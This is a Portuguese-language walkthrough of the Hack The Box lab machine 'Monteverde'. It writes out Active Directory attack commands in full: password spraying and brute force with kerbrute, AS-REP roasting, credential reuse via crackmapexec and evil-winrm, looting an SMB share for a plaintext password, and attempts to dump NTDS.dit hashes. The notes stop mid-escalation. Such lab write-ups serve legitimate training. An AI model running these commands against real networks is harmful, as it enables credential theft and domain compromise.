 Monteverde
===================

Inicio padrao:

# Enumeration

    sudo nmap_enum monteverde.htb


## Obtendo senha do usuario

Com as informacoes de usuarios e grupos, podemos fazer alguns teste tais como testar ASREP (3), forca bruta (2), password spray (1) ou forca bruta tambem, mas com crackmapexec


1)
Este pode ser tentado caso a gente consiga alguma senha valida:

    kerbrute passwordspray -d test.local domain_users.txt password123

2)
Funcionou. Aqui formatamos as credenciais em um arquivo com o seguinte comando:

    awk {'print $1":"$1'} usersnames.txt > credenciais.txt    
    kerbrute bruteforce -d MEGABANK.LOCAL --dc 10.10.10.172 credenciais.txt
    
![qownnotes-media-sytpug](../../../media/qownnotes-media-sytpug.png)

    
    kerbrute bruteuser -d MEGABANK.LOCAL --dc 10.10.10.172 passwords.txt SABatchJobs

3)
Nao funcionou
    
    python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
 
 ![qownnotes-media-rIafnT](../../../media/qownnotes-media-rIafnT.png)

4) Funcionou

    crackmapexec smb 10.10.10.1 -u users.txt -p passwords.txt

## Exploitation

Depois disso eu fiz alguns testes pra saber como seria essa parte da exploracao

Tentei dumpar a base de hashes (sem sucesso)

    impacket-secretsdump MEGABANK.LOCAL\SABatchJobs:SABatchJobs@10.10.10.172

    impacket-secretsdump MEGABANK.LOCAL/SABatchJobs:SABatchJobs@10.10.10.172

Tentei obter shell

    impacket-psexec MEGABANK.LOCAL/SABatchJobs:SABatchJobs@10.10.10.172

Tentei obter alguns usuários de serviço:

    impacket-GetUserSPNs MEGABANK.LOCAL/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
    
Tentei novamente com winrm pra ver se obtia a shell e não funcionou:
    
    evil-winrm -i 10.10.10.172 -u SABatchJobs -p SABatchJobs
  
 Fiz a enumeração novamente e aí sim consegui obter mais informações:
 
    enum4linux -u SABatchJobs -p SABatchJobs -a 10.10.10.172

Quando notei o output desta ferramenta vi que tinha um share disponível lá, cujo conteúdo era um arquivo azure.xml
e obtive esse retorno da seguinte maneira:

    smbclient //10.10.10.172/users$ -U 'MEGABANK.LOCAL/SABatchJobs' -c "recurse true; ls"

![qownnotes-media-akQynY](../../../media/qownnotes-media-akQynY.png)

    smbclient //10.10.10.172/users$ -U 'MEGABANK.LOCAL/SABatchJobs'                      
           Password for [MEGABANK.LOCAL\SABatchJobs]:
    Try "help" to get a list of possible commands.
    smb: \> cd mhope
    smb: \mhope\> get azure.xml
    getting file \mhope\azure.xml of size 1212 as azure.xml (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
    smb: \mhope\> exit
                                                                                                                                                                           
    ┌──(acosta㉿kali)-[~]
    └─$ cat azure.xml    
    ��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
      <Obj RefId="0">
        <TN RefId="0">
          <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
          <T>System.Object</T>
        </TN>
        <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
        <Props>
          <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
          <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
          <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
          <S N="Password">4n0therD4y@n0th3r$</S>
        </Props>
      </Obj>
    </Objs>

![qownnotes-media-hfqBgU](../../../media/qownnotes-media-hfqBgU.png)


Acabamos de obter mais um usuário de domínio agora:

user: mhope
senha: 4n0therD4y@n0th3r$

## Escalacao de privilegio

Desta vez conseguimos acesso via evilrm... No entanto, quando fui obter mais informações a respeito do sistema, não foi possível, porque não tinha permissão pra isso:

    evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
    
![qownnotes-media-KkHbge](../../../media/qownnotes-media-KkHbge.png)

    systeminfo > sysinfo.txt]

E novamente voltei para o passo anterior para prosseguir com a enumeração:

    enum4linux -u mhope -p '4n0therD4y@n0th3r$' 10.10.10.172

Dessa vez notei que o SYSVOL está disponível e tem algumas coisas lá dentro que eu precisava verificar:

    smbclient //10.10.10.172/SYSVOL -U 'MEGABANK.LOCAL/mhope' -c "recurse true; ls"

![qownnotes-media-IrzkjH](../../../media/qownnotes-media-IrzkjH.png)


Tentando de outras formas aqui, tais como:

    sudo apt install bloodhound.py bloodhound
 

    bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172

    impacket-samrdump 'MEGABANK.LOCAL/mhope:4n0therD4y@n0th3r$@10.10.10.172'

    impacket-secretsdump -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.172 'MEGABANK.LOCAL/mhope:4n0therD4y@n0th3r$@10.10.10.172'








